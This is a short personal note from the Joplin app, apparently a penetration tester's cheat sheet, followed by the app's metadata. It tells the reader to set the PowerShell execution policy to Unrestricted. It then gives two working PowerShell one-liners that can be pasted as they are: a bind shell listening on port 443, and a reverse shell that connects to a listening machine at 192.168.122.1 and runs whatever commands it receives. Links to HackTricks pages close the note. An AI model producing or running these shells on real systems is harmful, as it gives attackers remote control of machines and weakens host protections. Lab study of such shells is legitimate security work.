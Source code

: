 PowerShell

Remember to make the computer set the executionPolicy unrestricted

> Set-ExecutionPolicy Unrestricted

Bind shell

`powershell -exec bypass -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443); $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"`

Reverse Bind shell (With kali as listener \[Use NetCat\]):

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.122.1',2000); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()"`

URL for more info

https://book.hacktricks.xyz/shells/shells/windows

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters

id: 1a72f4e7464d467d810fc01a3adf9ed0
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T07:01:30.082Z
updated_time: 2022-02-04T01:28:14.254Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T07:01:30.082Z
user_updated_time: 2022-02-04T01:28:14.254Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1